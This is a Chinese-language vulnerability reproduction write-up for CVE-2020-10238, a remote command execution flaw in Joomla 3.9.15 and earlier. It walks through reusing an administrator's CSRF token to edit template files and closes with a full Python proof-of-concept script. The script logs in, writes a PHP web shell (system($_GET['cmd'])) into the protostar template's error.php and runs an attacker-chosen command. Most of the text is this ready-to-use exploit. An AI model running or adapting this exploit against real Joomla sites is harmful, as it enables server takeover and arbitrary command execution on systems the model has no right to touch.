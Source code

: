 （CVE-2020-10238）Joomal \<= 3.9.15 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

\<= 3.9.15

三、复现过程
------------

    http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==

使用admin进行登录

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId24.png)

### 思路：

-   首先超级管理员跟管理员的后台界面是不同的
-   将恶意代码添加到index.php里面
-   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId26.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId27.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId28.png)

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId29.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId30.png)

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId31.png)

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId32.png)

### poc

![](./.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId34.png)

    #!/usr/bin/python
    import sys
    import requests
    import re
    import argparse

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n") + "[-] You are not admin account!"
            return None
        return match.group(1)
    def try_admin_login(sess,url,uname,upass):
        admin_url = url+'/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        # print token
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True

    def rce(sess,url,cmd):
        getjs = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D'
        resp = sess.get(getjs, verify=True)
        token = extract_token(resp)
        if (token==None) : sys.exit()
        filename='error.php'
        shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
        shdata_up = {
            'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
            'task': 'template.apply',
            token: '1',
            'jform[extension_id]': '506',
            'jform[filename]': '/' + filename
        }
        shreq = sess.post(shlink, data=shdata_up)
        path2shell = '/templates/protostar/error.php?cmd='+cmd
        # print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = sess.get(url + path2shell)
        shresp = shreq.text
        print shresp + '[+] Shell link: \n' + (url + path2shell)
        print '[+] Module finished.'

    def main() :
        
        # Construct the argument parser
        ap = argparse.ArgumentParser()
        # Add the arguments to the parser
        ap.add_argument("-url", "--url", required=True,
                        help=" URL for your Joomla target")
        ap.add_argument("-u", "--username", required=True,
                        help="username")
        ap.add_argument("-p", "--password", required=True,
                        help="password")
        ap.add_argument("-cmd", "--command", default="whoami",
                        help="command")
        args = vars(ap.parse_args())
        # target
        url = format(str(args['url']))
        print '[+] Your target: ' + url
        # username
        uname = format(str(args['username']))
        # password
        upass = format(str(args['password']))
        # command
        command = format(str(args['command']))
        
        sess = requests.Session()
        if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
        rce(sess,url,command)
    if __name__ == "__main__":
        sys.exit(main())

参考链接
--------

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238
